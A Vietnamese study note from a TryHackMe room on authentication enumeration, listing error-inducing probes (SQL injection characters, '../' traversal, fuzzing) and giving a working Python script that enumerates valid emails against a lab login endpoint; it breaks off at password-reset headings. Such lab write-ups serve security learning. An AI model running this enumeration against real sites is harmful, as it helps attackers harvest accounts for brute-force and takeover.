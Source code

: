 ```yaml
---
title: 'Enumeration & Brute Force'
category: 'learning'
date: '26-01-2025'
---
```


# Chuẩn bị

- Kiến thức cơ bản về giao thức HTTP/HTTPS, bao gồm request/response và status code.
- Sử dụng web proxy như BurpSuite.
- Sử dụng Linux.

# Authentication Enumeration

## Authentication Enumeration

### Identifying Valid Usernames

- Xác định định đúng username đương nhiên giúp cho việc brute force nhanh hơn và chính xác hơn.
- Có thể xác định được username đúng thông qua _Quên mật khẩu_ hay thông báo từ hệ thống.

### Password Policies

- Có thể biết được đơn giản qua việc xem ở _Đăng ký_
- Từ đấy dự đoán được độ phức tạp của mật khẩu, điều chỉnh chiến lược, bỏ bớt mật khẩu vi phạm.

## Common Places to Enumerate

- Đăng ký
- Quên mật khẩu
- Thông báo lỗi
- Data từ lần vi phạm dữ liệu trước đó

# Enumerating Users via Verbose Errors

## Inducing Verbose Errors

- Cố gắng login sai: Đôi khi login làm hệ thống bắn ra các thông báo có lợi như "username not exist" hay "password incorrect".
- SQL Injection: Với loại này thì ta điền thêm vài ký tự đặc biệt vào nhưng nơi dự đoán có liên quan với DB, ví dụ như thêm `' " -- # ;`.
- LFI: Thử truy cập vài đường dẫn không được phép hoặc thêm thử `../` vào một số nơi có thể gây lỗi để xem.
- Thao túng form: Việc điền sai vài parameter hay bấm nút ko dc phép bấm thử cũng là một lựa chọn.
- Application Fuzzing: Gửi một đống input thứ mà hệ thống không lường trước được cũng là cách, một số tool hay dùng như `BurpSuite` hay `ffuf` hay được tin dùng.

## Thử nghiệm

> Tất cả các tài nguyên dưới đây là từ **TryHackMe**

- Ta có một web lab nhỏ có giao diện như sau:
  ![alt text](image.png)
- Nếu nhập đúng email thì thông báo có chút khác biệt:
  ![alt text](image-1.png)
- Dựa trên đây ta có một script nhỏ bằng python:

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)

```
- Scan nửa ngày thif cuối cùng cũng có cái valid:
  ![alt text](image-2.png)
# Exploiting Vulnerable Password Reset Logic
## Password Reset Flow Vulnerabilities
- Email-Based Reset
- Security Question-Based Reset
- SMS-Based Reset
## Exploiting Predictable Tokens
